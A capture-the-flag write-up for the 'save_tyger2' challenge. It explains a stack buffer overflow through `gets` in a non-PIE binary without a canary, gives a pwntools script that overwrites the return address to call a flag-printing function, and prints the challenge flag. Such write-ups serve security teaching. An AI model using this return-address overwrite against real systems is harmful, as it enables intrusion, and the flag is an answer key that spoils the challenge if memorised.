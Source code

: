 # save_tyger2
> Tyger needs your help again.
> Connect with nc litctf.live 31788
>
> Downloads
> [save_tyger2.zip](https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX)

## Identifying the vulnerability
A call to `gets` which reads data into a stack-allocated array occurs in the `main` function. This can be used to overwrite the return address of `main` to call the `cell` function which prints the flag. Using `checksec` (a tool included with pwnlib) we can find out that `save_tyger2` is not a position independent executable (PIE) which means that the address of `cell` will always be the same:
```sh
$ checksec save_tyger2
[*] '/tmp/save_tyger2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Crafting the payload
Initially there are 2 quad-words (consisting of 8 bytes each) on the stack: the return address and the old base address (value of rbp register). The size of `buf` which we'll be overflowing is 32 bytes. This, with the return address and the base address, gives a total of 48 bytes, which is divisible by 16 - and since the stack on x64 Linux is 16 bytes aligned the actual difference between `buf` and old base address will indeed be 32 bytes (which can be confirmed by disassembling the `main` function). Therefore the length of the padding before the address of `cell` that will overwrite `main`'s return address is 40 bytes (32 to fill `buf` and 8 to overwrite the old base address). The following Python script exploits the vulnerability and reads the flag from the remote challenge:
```py
from pwn import *

e = ELF('./save_tyger2')
addr = e.symbols['cell'] # the address of `cell` function

p = remote('litctf.live', 31788)

p.recvuntil(b':sadness:\n')
p.sendline(b'A' * 40 + p64(addr))
print(p.recvall())
```

## Flag
`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`

